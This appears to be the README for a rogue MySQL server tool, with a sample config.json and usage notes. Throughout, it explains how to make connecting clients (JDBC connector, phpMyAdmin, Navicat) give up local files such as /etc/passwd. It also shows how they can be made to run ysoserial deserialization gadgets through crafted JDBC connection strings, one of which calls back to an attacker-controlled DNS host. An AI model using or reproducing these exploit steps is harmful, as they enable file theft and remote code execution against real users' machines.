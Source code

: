 ## Test Environment：
1. jdk1.8.20+mysql-connector-java 8.0.14/5.1.22(Deserialization on Windows（JRE8u20）、File Reading)
2. PHPMyAdmin(File Reading on Windows  an Linux，can use relative path to read php file)
3. Navicat 12(File Reading on Windows，nead switch to mysql_clear_password Authentication plugin)

## Instructions
Default config.json:

```json
{
     "config":{
        "ysoserialPath":"ysoserial-0.0.6-SNAPSHOT-all.jar", //YsoSerial Location
        "javaBinPath":"java",//java Command Location
        "fileOutputDir":"./fileOutput/",//File Save Directory
        "displayFileContentOnScreen":true,//Whether to preview the content of the output file to the console
        "saveToFile":true//Whether to save the file
    },
//File Reading Params
    "fileread":{
        "win_ini":"c:\\windows\\win.ini",//key is username,value is the path for file reading
        "win_hosts":"c:\\windows\\system32\\drivers\\etc\\hosts",
        "win":"c:\\windows\\",
        "linux_passwd":"/etc/passwd",
        "linux_hosts":"/etc/hosts",
        "index_php":"index.php",
        "__defaultFiles":["/etc/hosts","c:\\windows\\system32\\drivers\\etc\\hosts"]//Randomly select files to read in case of unknown user name
    },
//ysoserial Params
    "yso":{
        "Jdk7u21":["Jdk7u21","calc"]//key is username,value is ysoserial's run params.
    }
}
```

1. File Reading Exploit：

    - The filepath to be read can be predefined in the fileread section of config.json(e.g.:  use username `win_ini`to read `win.ini`)
    - Can use the username starting with fileread_(e.g.:use username `fileread\_/etc/passwd` to read `/etc/passwd`)

2. Deserialize Exploit:
    - The yso payload generation parameters can be predefined in the yso section in config.json(e.g. username `Jdk7u21` return Jdk7u21 gadget with open calculator)

    - Can use the username starting with `yso_`.The format is `yso\_payload type\_command`（e.g:yso\_Jdk7u21\_calc）

      JDBC connection string examples：

      - `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_Jdk7u21_calc`
      - `jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_URLDNS_http://yourdns.log.addr/`
